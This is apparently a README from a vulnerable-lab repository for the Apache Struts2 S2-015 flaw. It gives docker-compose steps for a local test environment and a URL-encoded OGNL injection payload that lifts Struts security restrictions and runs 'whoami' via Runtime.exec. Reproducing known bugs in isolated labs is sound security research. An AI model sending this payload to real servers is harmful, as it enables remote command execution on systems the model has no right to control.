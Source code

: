 ### s2-015 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30080
```

```
poc:
${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}.action

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-015/1.png)


